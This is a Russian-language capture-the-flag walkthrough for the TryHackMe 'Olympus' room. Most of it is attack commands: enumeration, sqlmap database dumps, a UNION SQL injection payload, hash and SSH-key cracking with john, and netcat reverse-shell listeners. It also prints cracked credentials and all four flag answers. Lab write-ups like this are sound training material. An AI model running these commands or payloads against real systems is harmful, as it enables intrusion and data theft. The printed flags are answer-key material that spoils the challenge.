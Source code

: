 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Olympus](https://tryhackme.com/r/room/olympusroom) 

Всего 2 задания:
## Задание 1
Привет!

Запустите VM здесь и начните перечисление! Машине может потребоваться некоторое время для запуска. Пожалуйста, 
подождите до 5 минут (извините за неудобства).  Брутфорс против любой страницы входа выходит за рамки и не должен 
использоваться.

Если вы застряли, вы можете найти подсказки в моем репозитории GitHub (вы найдете их в разделе пошаговых инструкций).

Ну... Удачного взлома ^^ 

Маленький принц

### Ответьте на вопросы ниже
Запустите виртуальную машину

```commandline
Ответ не нужен
```

## Задание 2
Отправьте свои флаги здесь.
### Ответьте на вопросы ниже
Что такое Флаг 1?
```commandline
nmap -sSCV 
gobuster dir -u http://<IP>/ -t 30 -w /usr/share/Seclists/Discovery/Web-Content/common.txt
sqlmap -u "http://<IP>/~webmaster/search.php" --dbs --forms --tables -D olympus --dump
sqlmap -u 'http://<IP>/~webmaster/category.php?cat_id=1' -p 'cat_id' -D olympus -T flag  --dump
# or in search
1337'union select 1,2,concat(flag),4,5,6,7,8,9,10 from olympus.flag -- -
```
```commandline
flag{Sm4rt!_k33P_d1gGIng}
```
Что такое Флаг 2?
```commandline
sqlmap -u 'http://<IP>/~webmaster/category.php?cat_id=1' -p 'cat_id' -D olympus -T users  -C user_name,user_password,user_email --dump
john hash --wordlist=/usr/share/wordlists/rockyou.txt
john --show hash 
prometeheus:summertime
http://<IP>/~webmaster/search.php
nc -lvnp 4444
cat /home/zeus/user.txt
```
```commandline
flag{Y0u_G0t_TH3_l1ghtN1nG_P0w3R}
```
Что такое Флаг 3?
```commandline
find / -perm -u=s -type f 2>/dev/null
/usr/bin/cputils
chmod 400 id_rsa
ssh -i id_rsa zeus@olympus.thm
ssh2john.py id_rsa > pass
john pass --wordlist=/usr/share/wordlists/rockyou.txt
ssh zeus@olympus.thm -i id_rsa
uname -a; -w;/lib/defended/libc.so.99

```
```commandline
flag{D4mN!_Y0u_G0T_m3_:)_}
```
Что такое Флаг 4?
```commandline
nc -nlvp 5555
cd /etc
grep -R "flag{"
cat ssl/private/.b0nus.fl4g
```
```commandline
flag{Y0u_G0t_m3_g00d!}
```


[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)